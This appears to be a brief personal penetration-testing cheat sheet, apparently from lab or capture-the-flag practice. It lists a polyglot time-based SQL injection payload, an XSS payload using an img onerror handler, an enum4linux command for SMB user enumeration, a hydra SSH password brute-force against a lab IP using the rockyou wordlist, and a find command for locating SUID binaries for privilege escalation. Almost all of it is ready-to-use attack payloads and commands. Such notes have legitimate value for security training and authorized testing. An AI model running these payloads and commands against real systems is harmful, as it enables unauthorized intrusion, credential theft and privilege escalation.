 # payload
 ## SQLi one for all
    
    SLEEP(10)+/*'+or+SLEEP(10)+or'"+or+SLEEP(10)+or+"*/
 ## XSS
 
    "><img src=dwqdwq onerror=console.log(1)>

    
# SystemPrivilege


 **smb find username ,password**
 
 >./enum4linux.pl -a <IP> to get username
 
 **check rockyou to get password ssh with hydra**
 
 >hydra -l jan -P /home/madridista/wordlists/rockyou.txt 10.10.131.125 ssh
 
 

 **find SUID**
 
 >find / -user root -perm -4000 -exec ls -ldb {} \;

 

